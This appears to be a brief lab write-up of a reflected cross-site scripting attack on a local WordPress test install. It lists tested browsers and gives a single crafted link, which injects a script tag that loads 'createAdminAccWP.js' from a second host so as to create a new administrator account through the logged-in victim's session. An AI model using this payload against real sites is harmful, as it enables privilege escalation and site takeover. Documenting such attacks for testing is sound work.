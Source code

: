 # [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. victim user (with administrative privileges) logs in

http://192.168.5.10/wp-login.php

2. victim user clicks link

```
http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.13/createAdminAccWP.js></script>
```

## Screenshots

![Image](screenshots/WordPress_-_create_new_admin_-_1-1.png)
